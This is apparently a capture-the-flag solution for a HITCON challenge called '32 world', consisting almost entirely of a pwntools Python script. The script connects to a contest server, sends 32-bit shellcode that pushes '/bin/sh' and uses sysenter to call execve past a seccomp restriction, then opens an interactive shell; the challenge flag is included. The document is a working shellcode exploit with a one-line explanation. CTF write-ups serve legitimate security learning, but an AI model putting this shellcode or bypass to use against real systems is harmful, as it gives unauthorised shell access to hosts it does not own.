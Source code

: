 # 32 world
* Use `sysenter` to bypass the constrain.
```python
#!/usr/bin/env python
from pwn import *

# hitcon{s3cc0mp_1s_n0t_4lw4y_s4f3_LOL}

host , port = '54.65.133.244' , 8361
y = remote( host , port )

p = asm('''
	push 0x68732f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	mov ebp, esp
	sysenter
''')

y.sendafter( ':' , p )
y.interactive()
```